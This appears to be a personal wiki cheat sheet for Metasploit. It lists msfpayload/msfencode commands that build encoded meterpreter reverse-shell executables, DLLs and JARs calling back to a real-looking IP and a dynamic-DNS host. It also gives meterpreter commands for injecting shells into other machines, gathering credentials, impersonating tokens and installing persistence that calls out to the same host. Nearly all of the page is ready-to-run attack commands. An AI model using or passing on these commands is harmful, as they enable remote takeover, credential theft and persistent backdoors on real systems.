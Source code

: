 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)
# MSFVenom


Following is pretty old.  MSFvenom instead of msfpayload, but things I need to look up.
Encrypting
./msfpayload windows/meterpreter/reverse_tcp LHOST=71.229.140.156 LPORT=9999 R | ./msfencode -t exe > meterp.exe
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1)

NEW ONE:
./msfpayload windows/meterpreter/reverse_tcp_dns LHOST=olympus.dyns.cx LPORT=9998 R | ./msfencode -c 10 -t exe > meterp.exe

Make a DLL exploit with msfpayload
msfpayload windows/exec CMD=calc.exe D > test.dll

Java Jar file (note the [R]aw and not [J]avascript output.)
./msfpayload java/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT 9996 R > file.jar 

[Payload in a DLL](/payloaddll) - (msfvenom can do this now, but interesting for future anyway.)

# Meterpreter

Sending Shells to other people

run duplicate -D -r -e executable_to_inject -p 4444 -r listenhost

Next command will send meterpreters to each ip in -mr list

run multi_meter_inject -pt windows/meterpreter/reverse_https -mr 10.128.129.200,10.128.129.201 -p 443

Auto Run Script

set AutoRunScript multi_console_command -rc commands.rc

How to do exec

execute -i -f bash
-i interact
-f foreground I think
will execute the process. exit returns to meterpreter.

Execing with other Token:
incognito
execute -t will use the current token
-h will hide from screen
-c will chanelize it
-i will let you interact with it

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector


# Known Attack Patterns
[Pass the Hash](/passthehash)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

# MSFDB Commands
# MSF RPC Connections